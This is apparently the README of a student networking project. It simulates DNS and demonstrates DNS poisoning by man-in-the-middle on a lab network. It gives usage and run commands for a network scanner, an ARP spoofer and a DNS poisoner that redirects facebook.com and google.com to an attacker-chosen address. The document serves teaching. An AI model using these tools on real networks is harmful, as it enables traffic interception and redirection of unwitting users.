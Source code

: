 # DNS simulation
<a href="https://www.uit.edu.vn/">
<p align="center">
  <img width="600" height="400" src="https://upload.wikimedia.org/wikipedia/commons/thumb/3/38/Logo_UIT_updated.jpg/800px-Logo_UIT_updated.jpg">
</p>
</a>

<p align="center">
  <img src="https://github.com/datthinh1801/NT106.DNS-simulation/actions/workflows/python-dependencies.yml/badge.svg">
  <img src="https://github.com/datthinh1801/NT106.DNS-simulation/actions/workflows/flake8.yml/badge.svg">
</p>

This project is part of a university curriculum which is *Basic Networking Programming*.  

# Introduction
This project has 2 main features.  
1. Simulate DNS protocol  
2. Demonstrate a Man-In-The-Middle attack to poison DNS reponses from the **Resolver** to the **User**, this is called **DNS poisoning**.

## Dependencies
- `scapy` (for python 3.9)
- `dnspython` (for python 3.9)
- `netfilterqueue` (for python 2.7)

# Instruction
## DNS protocol simulation
### Resolver and Nameserver
In this project, **Resolver** and **Nameserver** are operated on the same machine, which we activate them in the `main.py`. Therefore, to run these components, just run the `main.py` file with the command `python3 main.py`.  
### User
In order for the **User** to make a query, run the `UserScript.py`.  
For more information, execute the script with `-h` option (`python3 UserScript.py -h`).  
```python
usage: .\UserScript.py [-h] -d [QNAME] [-t [QTYPE]] [-c [QCLASS]] --ip [IP] --port [PORT] [--protocol [PROTOCOL]]

Parse DNS arguments from CLI

optional arguments:
  -h, --help            show this help message and exit
  -d [QNAME], --domain [QNAME]
                        the domain name to be queried
  -t [QTYPE], --type [QTYPE]
                        the type of the query (A by default)
  -c [QCLASS], --class [QCLASS]
                        the class of the query (IN by default)
  --ip [IP]             IP address of the resolver
  --port [PORT]         port number that the resolver is listening
  --protocol [PROTOCOL]
                        tcp/udp (udp by default)
  --secure [SECURE]     1/0 secure connection with encrypted query payload (encrypted by default)
```

## DNS Poisoning
### Network Scanner
To be the man in the middle, we need to know the IP addresses of our 2 targets. For this reason, run the `Network_Scanner.py` script with the `-t` option to specify the IP range of the network that we want to scan.  
The outcome of this script will be the ***IP addresses*** as well as ***MAC addresses*** of **all hosts** in the targeted network.  
Use the `-h` option to see the help message.
```python
usage: Network_Scanner.py [-h] -t [TARGET]

optional arguments:
  -h, --help            show this help message and exit
  -t [TARGET], --target [TARGET]
                        IP address of a target host or an IP range of a target network
```
### ARP Spoofer
After having the IP addresses of our targets, run the `ARP_spoofer.py` script and specify the IP addresses of our 2 targets to start spoofing them. This spoof takes advantages of **ARP** to deceive both targets.  
For more information, use the `-h` option to see the help message.
```python
usage: ARP spoofer [-h] -t TARGET_IP -g GATEWAY_IP

optional arguments:
  -h, --help            show this help message and exit
  -t TARGET_IP, --target TARGET_IP
                        the IP address of the target machine
  -g GATEWAY_IP, --gateway GATEWAY_IP
                        the IP address of the default gateway
```  
> Originally, this tool was developed to spoof a host and a default gateway. However, this can be run to spoof 2 arbitrary hosts on the same network. If that is the case, we can use `-t` and `-g` interchangeably to specify our 2 targets.  

### DNS Poisoner
Once we become the man in the middle, we can run `DNS_poisoner.py` to poison DNS response from Resolver to User.  
For more information, use the `-h` option to see the help message.
```python
usage: DNS poisoner [-h] -t TARGET DOMAIN [TARGET DOMAIN ...] -d
                   [DESTINATION IP ADDRESS] [-l [TRUE]]

optional arguments:
  -h, --help            show this help message and exit
  -t TARGET DOMAIN [TARGET DOMAIN ...], --target-domains TARGET DOMAIN [TARGET DOMAIN ...]
                        Domain names that we want to poison
  -d [DESTINATION IP ADDRESS], --destined-domain [DESTINATION IP ADDRESS]
                        Our evil IP address that we want the victim to reach
  -l [TRUE], --local [TRUE]
                        Use this option if this script is run locally
```  
## Demonstration
We run the `main.py` on a machine whose IP address is `10.0.0.5`.  
Then, we'll receive logs as followed:
```bash
[SERVER]         Listening for UDP connections at 10.0.0.5:5252...
[SERVER]         Listening for TCP connections at 10.0.0.5:5353...
[RESOLVER]       Listening for clients' requests at 10.0.0.5:9292...
```  
We run the `UserScript.py` to make a query for `facebook.com`. Here, we run this script on a machine whose IP address is `10.0.0.7`.  

```bash
python3 UserScript.py -d facebook.com --ip 10.0.0.5 --port 9292
```  

The result in return is:  
```
facebook.com.;1;1;205;69.171.250.35
```  
> The last part of the reponse (`69.171.250.35`) is the IP address of `facebook.com`.  

In addition, if we examine the resolver's log, we can see a message specifying that the resolver has received a request from a user.  

```bash
[RESOLVER]       Receive a request for facebook.com;A;IN from ('10.0.0.7', 49775) using UDP
```
> If we want to specify the Resolver to make a query to the Nameserver via TCP, we need to execute the script with the `--protocol tcp` option.  


### Now, let's make our hands dirty 🤡  
First and foremost, as we already know the IP addresses of the machines that run the `main.py` and `UserScript.py`, it is unnecessary to run the `Network_Scanner.py`.  
Next, we need to run the `ARP_spoofer.py` to make us become the man in the middle between the Resolver and User.
```bash
sudo python3 ARP_spoofer.py -t 10.0.0.7 -g 10.0.0.5
# or
sudo python3 ARP_spoofer.py -t 10.0.0.5 -g 10.0.0.7
# either is ok
```
If the script is executed successfully, a successful message will be printed on the console.
```bash
[+] Spoof ['10.0.0.5'] and ['10.0.0.7'] successfully!
```

Finally, run our `DNS_poisoner.py`.
```bash
sudo python DNS_poisoner.py -t facebook.com google.com -d 10.0.0.10
```
Here, we specify the domains that we want to poison. In this example, we will poison any responses that carry the IP addresses of `facebook.com` and `google.com`.  
These IP addresses will be changed to the one specified by the `-d` option, which is `10.0.0.10` in this example.  
  
Now let's come back to the machine that runs `UserScript.py` and make a query for `facebook.com` again.
```bash
python3 UserScript.py -d facebook.com --ip 10.0.0.5 --port 9292
```

This time, the response is:  
```
facebook.com.;1;1;205;10.0.0.10
``` 
which carries the spoofed IP address specified by our `DNS_poisoner`.  
But if we make a query for `youtube.com`, the response is not poisoned (`youtube.com.;1;1;43;172.217.31.238`).  

# Contributors
<a href="https://github.com/datthinh1801/NT106.DNS-simulation/graphs/contributors">
  <img src="https://contrib.rocks/image?repo=datthinh1801/NT106.DNS-simulation" />
</a>

Made with [contributors-img](https://contrib.rocks).
